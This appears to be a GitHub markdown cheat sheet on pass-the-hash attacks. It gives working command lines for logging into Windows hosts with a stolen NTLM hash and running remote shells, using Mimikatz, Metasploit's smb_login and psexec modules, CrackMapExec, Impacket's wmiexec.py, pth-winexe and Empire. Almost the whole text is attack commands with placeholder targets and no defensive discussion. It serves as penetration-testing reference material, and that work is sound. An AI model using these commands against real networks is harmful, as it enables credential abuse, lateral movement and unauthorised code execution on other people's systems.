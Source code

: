 # How-To Pass-the-hash (PtH)
You can use many many tools to perform PtH. The only required things are:
* A username (and its domain if not local...)
* Its NTLM hash

## Mimikatz
### Original binary
```
mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM>
```

### Powershell version
```
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM> /run:powershell.exe"'
```

## Metasploit
1. Testing credentials
```
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > set RHOSTS <hosts>
RHOSTS => <host>
msf auxiliary(smb_login) > set SMBDomain <domain>
SMBDOMAIN => <domain>
msf auxiliary(smb_login) > set SMBUser <user>
SMBUser => <user>
msf auxiliary(smb_login) > set SMBPass <LM>:<NTLM>
SMBPass => <LM>:<NTLM>
msf auxiliary(smb_login) > run
```
> If you were using msfconsole and stored your network scans within its database you could use
**services -p 445 -R** to to populate RHOSTS with every host with 445 open

2. Exploit
```
msf > use windows/smb/psexec
msf exploit(psexec) > set RHOST <host>
RHOST => <host>
msf exploit(psexec) > set SMBUser <username>
SMBUser => <username>
msf exploit(psexec) > set SMBPass <LM>:<NTLM>
SMBPass => <LM>:<NTLM>
msf exploit(psexec) > exploit
```
> You could also use **auxiliary/admin/smb/psexec_command**

## CrackMapExec
https://github.com/byt3bl33d3r/CrackMapExec
```
#~ crackmapexec <proto> <target(s)> [-d <domain>] -u <user> -H <NTLM>
```
> CME for Windows: https://github.com/maaaaz/CrackMapExecWin/wiki/How-to-compile-CrackMapExec-for-Windows

## Impacket
https://github.com/CoreSecurity/impacket/
* psexec.py
* smbexec.py
* wmiexec.py
* atexec.py
* dcomexec.py
* etc.

Example:
```
python wmiexec.py -hashes :<ntlm> <user>@<server_fqdn>
```
> Impacket examples for Windows: https://github.com/maaaaz/impacket-examples-windows

## pth-toolkit
* pth-net
* pth-rpcclient
* pth-smbclient
* pth-smbget
* pth-winexe
* pth-wmic
* pth-wmis
> pth-* uses the format <domain>/<user>%h<LM>:<NTLM>

Example:
```
pth-winexe -U <domain>/<user>%h<LM>:<NTLM> //<server_fqdn> cmd.exe
```

## Empire
```
(Empire: <agent_name>) > pth <credID>
```
> Pass-the-hash through Invoke-Mimikaz's sekurlsa::pth function
